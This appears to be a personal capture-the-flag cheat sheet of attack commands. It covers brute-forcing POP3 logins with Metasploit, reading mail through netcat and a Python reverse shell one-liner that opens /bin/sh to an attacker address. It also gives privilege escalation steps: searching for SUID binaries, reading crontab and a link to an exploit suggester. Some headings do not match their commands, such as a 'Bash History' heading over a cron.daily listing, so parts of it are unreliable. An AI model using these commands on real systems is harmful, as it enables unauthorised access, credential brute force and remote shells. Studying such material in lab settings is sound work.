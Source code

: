 ### POP3 Commands

#### Login BruteForce using `Metasploit`
- Password and Username list needed
```sh
msf6 > use auxiliary/scanner/po
use auxiliary/scanner/pop3/pop3_login 
```
- Need the Listener Now

```sh
nc <target_ip> 110
```
**Commands**
- To see list of files
```sh
list
```
- To see the files
```sh
retr <list number>
```

## Scripts

- #### Tools Download History
```sh
cat /var/log/apt/history.log | grep 'tool-name'
```
- #### Python Reverse shell `One-Liner`
```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_Ip-openvpn>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- #### Exploit Suggestion : [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
## PrivEsc

#### My Notes
- [PrivEsc](https://github.com/Ruhanyat-994/myCTF/tree/master/THM-CTF/my-materials/PrivEsc)

#### Suid Bit Set
```sh
find / -type f -perm -04000 -ls 2>/dev/null
```
- After getting the files which have suid bit set you can search them through `searchsploit` , you can get scripts for privesc sometime.

- #### **Finding info in the crontab**
```sh
cat /etc/crontab 
```
- #### Finding backdoors
```sh
curl localhost:8080
```
- #### Searching for `Bash History`
```sh
ls -la /etc/cron.daily/
```
